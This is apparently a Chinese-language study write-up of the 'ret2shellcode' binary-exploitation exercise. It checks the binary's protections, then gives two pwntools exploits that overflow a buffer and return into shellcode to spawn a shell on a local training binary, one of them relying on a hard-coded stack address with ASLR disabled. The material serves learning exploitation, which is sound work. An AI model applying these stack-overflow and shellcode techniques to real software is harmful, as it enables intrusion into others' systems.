 # ret2shellcode

检查程序的保护

![image-20240425143605429](图片/image-20240425143605429.png)

反汇编

![image-20240425143628496](图片/image-20240425143628496.png)

没有随机基质，没有栈保护，随意发挥即可

```python
from pwn import *
import time

sh = process('./ret2shellcode')

#gdb.attach(sh)
#sleep(15)

shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))
sh.interactive()

```

总结：

一开始我一直没明白什么时候把shellcode拷进0x804a080中的，再观察反汇编才发现gets下面有一个拷贝函数

在构造exp的时候，不能只盯着溢出点，还要观察上下文



思考：假设没有strncpy，如何构造exp？

答：若没有拷贝函数，则溢出点应该是栈中，我们则需要知道栈的地址，利用jmp esp pop esp等来构造rop，exp如下

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())

#gdb.attach(sh)
#sleep(15)

add = 0xffffd500

payload = flat([b'a'*112,add,shellcode])
sh.sendline(payload)

sh.interactive()
```



总结：由于没有jmp esp ，pop esp等指令，观察汇编上下文也没有合适的指令操作，只能是关闭ASLR(栈随机)来完成这一利用。
